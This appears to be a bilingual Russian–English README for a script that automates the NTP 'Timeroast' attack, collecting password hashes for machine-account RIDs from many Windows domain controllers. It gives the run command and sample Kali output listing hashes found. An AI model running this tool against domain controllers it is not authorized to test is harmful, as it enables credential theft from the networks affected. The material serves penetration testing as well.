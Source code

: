 ## Информация / Information

Скрипт для циклического автоматизированно сбора хешей с большого количества серверов синхронизации времени контроллеров домена Microsoft Windows. Скрипт доработан на основе скрипта `https://github.com/SecuraBV/Timeroast`

A script for the cyclic automated collection of hashes from a large number of time synchronization servers of Microsoft Windows domain controllers. The script has been finalized based on the script `https://github.com/SecuraBV/Timeroast`

## Подготовка и запуск / Preparation and launch

Сохраните адреса контроллеров домена в файл, например: `file.txt`. 
Выполните следующую команду с вашего хоста указав аргумент `-f` - файл с контроллерами домена и `-o` - файл экспорта. 

Save the addresses of the domain controllers to a file, for example: `file.txt `. 
Run the following command from your host, specifying the argument `-f` for the domain controller file and `-o` for the export file.

Ниже приведен пример команды / The following is an example of a command:
```
python3 timeroast_gis.py -f file.txt -o export.txt
```

## Пример работы / Example of work
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 timeroast_gis.py -f file.txt -o export.txt

     ██████  ██ ███████  ███████ ██    ██ ██████  ███████  ██████  ████████ ███████    ██     ███    ███ 
    ██       ██ ██       ██       ██  ██  ██   ██ ██       ██   ██    ██    ██       ██  ██   ████  ████ 
    ██   ███ ██ ███████  ██         ██    █████   █████    ██████     ██    █████   ██    ██  ██ ████ ██ 
    ██    ██ ██      ██  ██         ██    ██   ██ ██       ██   ██    ██    ██      ████████  ██  ██  ██ 
     ██████  ██ ███████  ███████    ██    ███████ ███████  ██   ██    ██    ███████ ██    ██  ██      ██ 
    
Starting NTP Timeroast attack...

[+] Processing host 1/1: 10.10.10.2
    Checking RIDs 0-29999...
    Finished checking RIDs 0-29999.

    Checking RIDs 30000-59999...
    Finished checking RIDs 30000-59999.

    Checking RIDs 60000-89999...
        Found hash for RID 60018
        Found hash for RID 60027
        Found hash for RID 60061
        Found hash for RID 60062
        Found hash for RID 60069
        Found hash for RID 60070
```

